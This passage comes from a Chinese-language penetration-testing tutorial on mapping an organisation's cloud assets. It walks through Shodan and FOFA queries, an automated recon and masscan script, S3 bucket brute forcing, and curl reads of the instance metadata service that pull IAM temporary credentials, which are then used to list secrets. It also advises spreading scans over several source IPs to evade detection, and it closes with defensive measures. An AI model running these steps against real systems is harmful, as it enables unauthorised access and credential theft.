# org:"Example Corp" port:6379
# product:"MongoDB" country:"CN"
# ssl.cert.subject.cn:"example.com"

# 使用Shodan CLI
shodan search "org:Example port:6379" --fields ip_str,port,product

# === 云环境特殊注意事项 ===
# 1. AWS安全组可能限制了入站流量，但内部安全组可能更宽松
# 2. 使用VPC内网IP扫描比公网IP更全面
# 3. 注意云平台的滥用检测，避免触发封禁
# 4. 使用分散的源IP进行扫描，降低被检测风险
```

### 云安全搜索引擎

云安全搜索引擎可以被动发现暴露在互联网上的云资产，无需直接扫描目标。

| 平台 | 网址 | 特色 | 免费额度 |
|------|------|------|----------|
| Shodan | shodan.io | 最全面的设备搜索引擎 | 有限查询 |
| Censys | censys.io | 证书和主机搜索 | 250次/月 |
| FOFA | fofa.info | 国内资产覆盖好 | 有限查询 |
| ZoomEye | zoomeye.org | 知道创宇，国内资源丰富 | 有限查询 |
| GreyNoise | greynoise.io | 区分扫描噪音和真实威胁 | 社区版免费 |
| Hunter | hunter.how | 国内新兴，数据更新快 | 有限查询 |

```bash
# === Shodan高级搜索语法 ===
# 搜索AWS S3 Bucket
shodan search "Server: AmazonS3" --fields ip_str,http.title

# 搜索暴露的Kubernetes Dashboard
shodan search "title:\"Kubernetes Dashboard\""

# 搜索暴露的Elasticsearch
shodan search "port:9200 product:Elasticsearch"

# 搜索暴露的MongoDB
shodan search "product:MongoDB country:CN"

# 搜索Azure Blob Storage
shodan search "http.title:\"BlobNotFound\""

# === FOFA搜索语法 ===
# 搜索云存储
# app="AWS-S3" && country="CN"
# app="Azure-Blob" && title="BlobNotFound"
# body="oss" && title="Bucket"
```

### 自动化资产发现工作流

将上述技术整合为自动化工作流，可以持续监控和发现云资产。

```bash
#!/bin/bash
# cloud_asset_discovery.sh - 云资产自动发现脚本
# 用法：./cloud_asset_discovery.sh example.com

DOMAIN="$1"
OUTPUT_DIR="./cloud_audit_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

echo "[*] Phase 1: 子域名枚举"
subfinder -d "$DOMAIN" -silent -all > "$OUTPUT_DIR/subdomains_subfinder.txt"
amass enum -passive -d "$DOMAIN" -o "$OUTPUT_DIR/subdomains_amass.txt" 2>/dev/null
cat "$OUTPUT_DIR"/subdomains_*.txt | sort -u > "$OUTPUT_DIR/subdomains_all.txt"
echo "[+] 发现 $(wc -l < "$OUTPUT_DIR/subdomains_all.txt") 个子域名"

echo "[*] Phase 2: DNS解析与CNAME分析"
dnsx -l "$OUTPUT_DIR/subdomains_all.txt" \
  -a -aaaa -cname -resp -silent > "$OUTPUT_DIR/dns_records.txt"

echo "[*] Phase 3: 云平台归属识别"
grep -i "amazonaws\|azurewebsites\|cloudfront\|googleapis\|aliyuncs\|myqcloud" \
  "$OUTPUT_DIR/dns_records.txt" > "$OUTPUT_DIR/cloud_assets.txt"
echo "[+] 识别出 $(wc -l < "$OUTPUT_DIR/cloud_assets.txt") 个云资产"

echo "[*] Phase 4: 存储桶枚举"
cloud_enum -k "$(echo $DOMAIN | cut -d. -f1)" -l "$OUTPUT_DIR/bucket_enum.txt"

echo "[*] Phase 5: HTTP服务探测"
httpx -l "$OUTPUT_DIR/subdomains_all.txt" \
  -status-code -title -tech-detect -follow-redirects \
  -o "$OUTPUT_DIR/http_services.txt" -silent

echo "[*] Phase 6: 端口扫描（高价值端口）"
# 从DNS记录中提取IP地址
grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' "$OUTPUT_DIR/dns_records.txt" | \
  sort -u > "$OUTPUT_DIR/ip_addresses.txt"
masscan -iL "$OUTPUT_DIR/ip_addresses.txt" \
  -p80,443,6379,27017,9200,2375,6443,10250,5000,8080,8443 \
  --rate 500 -oL "$OUTPUT_DIR/port_scan.txt" 2>/dev/null

echo "[+] 资产发现完成，结果保存在 $OUTPUT_DIR/"
echo "[+] 汇总："
echo "    子域名: $(wc -l < "$OUTPUT_DIR/subdomains_all.txt")"
echo "    云资产: $(wc -l < "$OUTPUT_DIR/cloud_assets.txt")"
echo "    IP地址: $(wc -l < "$OUTPUT_DIR/ip_addresses.txt")"
```

### 实战案例：从子域名到完整云环境映射

以下是一个真实的渗透测试场景（已脱敏），展示如何从一个域名出发，逐步发现目标组织的完整云资产。

**目标**：`example-corp.com`（虚构公司名）

**Step 1：子域名枚举**

```text
subfinder -d example-corp.com -silent | tee subdomains.txt
amass enum -passive -d example-corp.com | tee -a subdomains.txt
sort -u subdomains.txt > subdomains_unique.txt
# 结果：发现 847 个子域名
```

**Step 2：DNS解析与云平台识别**

```text
dnsx -l subdomains_unique.txt -cname -resp -silent | tee dns_results.txt

# 发现的CNAME映射：
# api.example-corp.com → api-prod-abc123.elb.us-east-1.amazonaws.com [AWS ELB]
# cdn.example-corp.com → d87654.cloudfront.net [AWS CloudFront]
# app.example-corp.com → example-corp-prod.azurewebsites.net [Azure]
# assets.example-corp.com → example-assets.s3.amazonaws.com [AWS S3]
# dev.example-corp.com → dev-k8s.abc123.us-east-1.elb.amazonaws.com [AWS EKS]
```

**Step 3：存储桶枚举**

```bash
# 根据域名关键词生成Bucket名称
echo -e "example-corp\nexamplecorp\nexample-corp-prod\nexample-corp-dev\nexample-corp-backup\nexample-corp-logs\nexample-corp-assets\nexample-corp-data" > bucket_names.txt

# 测试每个Bucket
while IFS= read -r bucket; do
    status=$(curl -s -o /dev/null -w "%{http_code}" "https://${bucket}.s3.amazonaws.com")
    echo "[${status}] ${bucket}"
done < bucket_names.txt

# 结果：
# [403] example-corp - 存在但禁止列出
# [200] example-corp-assets - ⚠️ 可公开列出！
# [200] example-corp-backup - ⚠️ 可公开列出！
# [403] example-corp-logs - 存在但禁止列出
# [404] example-corp-dev - 不存在
```

**Step 4：深入探测公开Bucket**

```text
aws s3 ls s3://example-corp-assets --no-sign-request
# 发现：images/, css/, js/, documents/

aws s3 ls s3://example-corp-assets/documents/ --no-sign-request
# 发现：internal_report_2024.pdf, customer_data_export.csv ⚠️

aws s3 ls s3://example-corp-backup --no-sign-request
# 发现：database_backup_20240101.sql.gz, config_production.env ⚠️⚠️
```

**Step 5：元数据服务探测**

```bash
# 通过dev子域名发现的K8s集群，尝试访问元数据
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# 发现角色名：eks-node-role-prod

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-node-role-prod
# 获得临时凭证：AccessKeyId=AKIA..., SecretAccessKey=..., Token=...
```

**Step 6：利用临时凭证横向移动**

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

# 枚举更多资源
aws s3 ls  # 列出所有Bucket
aws ec2 describe-instances  # 列出所有EC2实例
aws lambda list-functions  # 列出所有Lambda函数
aws secretsmanager list-secrets  # 列出所有密钥
```

### 防御建议

从防御者视角，以下是防止云资产被枚举和利用的关键措施：

**1. 资产清单管理**
- 建立完整的云资产清单（CMDB），定期审计
- 使用AWS Config、Azure Policy、GCP Cloud Asset Inventory等原生工具
- 实施标签（Tagging）策略，确保所有资源可追溯

**2. 存储桶安全**
- 默认禁止公开访问（AWS S3 Block Public Access）
- 定期审计Bucket策略和ACL
- 启用访问日志和CloudTrail监控
- 使用AWS Access Analyzer检测意外公开的资源

**3. 元数据服务防护**
- 强制使用IMDSv2（`HttpTokens=required`）
- 限制元数据服务的跳数（`HttpPutResponseHopLimit=1`）
- 在IAM策略中限制临时凭证的权限范围
- 使用VPC Endpoint访问S3等服务，避免凭证通过公网传输

**4. 网络层防护**
- 最小化安全组入站规则，避免0.0.0.0/0
- 使用WAF防护Web应用
- 启用VPC Flow Logs监控异常流量
- 对管理端口（SSH/RDP/K8s API）使用堡垒机

**5. 持续监控**
- 启用CloudTrail/Azure Monitor/GCP Audit Logs
- 配置异常访问告警（如来自陌生IP的IAM操作）
- 使用Security Hub/Azure Security Center/Security Command Center
- 定期进行外部攻击面评估（EASM）

**6. 密钥和凭证管理**
- 禁止在代码和配置文件中硬编码凭证
- 使用Secrets Manager或HashiCorp Vault管理密钥
- 定期轮换Access Key
- 启用MFA保护特权账户

### 常见误区与纠正

| 误区 | 事实 |
|------|------|
| "CNAME指向云平台说明资产是我们的" | CNAME可能指向第三方托管的资源，不一定是目标所有 |
| "403就代表安全" | 403只表示禁止列出，具体文件仍可能可访问 |
| "IMDSv2就安全了" | IMDSv2在WebShell、容器逃逸等场景下仍可被利用 |
| "不用AWS就没有S3风险" | 很多公司使用S3但主站托管在其他平台 |
| "端口扫描只能用Nmap" | Masscan速度快100倍，Shodan/Censys完全被动 |
| "云环境不需要端口扫描" | 安全组配置错误、遗留实例等问题很常见 |
| "Bucket名字很难猜" | 大量公司使用 `公司名-用途` 的命名模式 |

### 本节要点回顾

1. 云资产发现从域名枚举开始，通过CNAME分析识别云平台归属
2. 存储桶枚举是最直接的攻击面，覆盖AWS S3、Azure Blob、阿里云OSS、腾讯云COS
3. 元数据服务（169.254.169.254）是获取临时凭证的关键路径，IMDSv2增加了攻击难度但并非不可绕过
4. 云安全搜索引擎（Shodan、Censys、FOFA）可以被动发现暴露资产
5. 自动化工作流将各阶段串联，实现完整的攻击面发现
6. 防御关键在于资产清单、最小权限、持续监控三者的结合
